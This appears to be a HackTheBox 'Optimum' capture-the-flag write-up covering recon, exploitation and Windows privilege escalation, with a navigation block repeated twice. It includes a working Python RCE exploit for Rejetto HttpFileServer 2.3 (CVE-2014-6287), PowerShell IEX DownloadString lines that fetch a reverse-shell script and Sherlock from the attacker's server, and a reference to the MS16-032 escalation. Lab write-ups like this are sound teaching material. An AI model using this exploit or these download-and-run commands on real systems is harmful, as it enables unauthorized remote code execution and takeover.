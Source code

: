 ```yaml
---
layout: default
title: Optimum
parent: HackTheBox
nav_order: 7
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.png)

- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.png)

- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.

![](pictures/site-optimum.png)

I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.


![](pictures/ssploit-optimum.png)

```bash
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```


## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell

![](pictures/edit-optimum.png)

Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)

![](pictures/cm-optimum.png)

Annnnd we get some access
![](pictures/user-optimum.png)



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.

![](pictures/systeminfo-optimum.png)


From here in order to automate the privesc search process I downloaded from my local python server, Sherlock written by RastaMouse
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root

![](pictures/root-optimum.png)



This lab was a good walk through to learn certain privilege escalation techniques/methodologies within Windows.